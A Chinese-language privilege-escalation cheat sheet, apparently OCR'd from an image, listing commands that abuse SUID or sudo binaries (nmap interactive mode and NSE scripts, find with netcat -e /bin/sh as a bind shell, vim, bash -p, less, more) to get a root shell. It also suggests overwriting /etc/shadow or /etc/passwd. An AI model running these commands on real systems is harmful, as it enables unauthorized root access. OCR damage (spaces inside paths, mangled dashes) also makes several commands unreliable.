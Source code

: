 也可以使用 sudo -l 命令列出当前用户可执行的命令

### 常用提权方式

**nmap**

find / -perm -u = s -type f 2> / dev / null –查找设置了SUID位的可执行文件

ls -la / usr / local / bin / nmap –让我们确认nmap是否设置了SUID位。

Nmap的SUID位置1。很多时候，管理员将SUID位设置为nmap，以便可以有效地扫描网络，因为如果不使用root特权运行它，则所有的nmap扫描技术都将无法使用。

但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行nmap，从而可以转至shell。如果nmap设置了SUID位，它将以root特权运行，我们可以通过其交互模式访问’root’shell。

nmap –interactive –运行nmap交互模式！sh –我们可以从nmap shell转到系统shell

**msf**中的模块为：

exploit/unix/local/setuid_nmap

**较新版可使用 —script 参数：**

echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse && sudo nmap —script=/tmp/shell.nse

**find**

touch test

**nc** **反弹 shell：**

find test -exec netcat -lvp 5555 -e /bin/sh \;

**vi/vim**

Vim的主要用途是用作文本编辑器。但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

打开vim,按下ESC

:set shell=/bin/sh:shell

或者

sudo vim -c ‘!sh’

**bash**

**以下命令将以**root****身份打开一个****bash shell**。**

bash -pbash-3.2# iduid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

**less**

程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。

less /etc/passwd!/bin/sh

**more**

more /home/pelle/myfile!/bin/bash

**cp**

覆盖 /etc/shadow 或 /etc/passwd
